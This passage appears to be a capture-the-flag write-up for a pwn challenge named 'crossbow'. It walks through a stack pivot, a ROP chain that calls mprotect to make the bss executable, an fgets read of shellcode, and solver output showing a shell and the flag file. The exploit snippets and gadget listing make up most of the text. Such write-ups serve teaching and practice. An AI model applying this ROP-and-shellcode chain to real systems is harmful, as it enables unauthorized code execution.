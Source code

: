 Once we successfully pivot the stack to a user-controlled area, we can chain a ROP sequence using the available gadgets in the binary. Since the binary is statically linked, a `ret2libc` approach isn't an option. Instead, we need to craft an `execve("/bin/sh", NULL, NULL)` system call to achieve code execution. Before doing that, we need to make the `bss` executable, so we can store the payload there. We can call `mprotect` to do so.

```python
# mprotect
pl  = b'w3th4nds'
pl += p64(rop.rdi[0])
pl += p64(e.bss())
pl += p64(rop.rsi[0])
pl += p64(0x1000)
pl += p64(rop.rdx[0])
pl += p64(0x7)
pl += p64(e.sym.mprotect)
```

After that, we pivot to `bss` which is now executable and read the payload with `fgets`.

```python
# fgets
pl += p64(rop.rdi[0])
pl += p64(e.bss(off))
pl += p64(rop.rsi[0])
pl += p64(0x80)
pl += p64(rop.rdx[0])
pl += p64(e.sym.__stdin_FILE)
pl += p64(e.sym.fgets)
```

In the end, we send the `shellcode` to `bss` that is now executable due to `mrpotect` we called earlier.

```python
r.sendline(asm(shellcraft.sh()))
```

# Solution

```bash
Running solver remotely at 0.0.0.0 1337

[*] Gadgets:
	       pop rdi:    0x401d6c
	       pop rsi:    0x40566b
	       pop rdx:    0x401139
	       bss():      0x40e220
	       fgets:      0x401cc0
	       mprotect:   0x40a320
	       STDIN:      0x40e020
 
~~ Shell ~~


[Sir Alaric]: That was quite a shot!!

$ id
uid=100(ctf) gid=101(ctf) groups=101(ctf)
$ ls
crossbow
flag.txt
```



[Sir Alaric]: Select target to shoot: -2
[Sir Alaric]: Give me your best warcry!!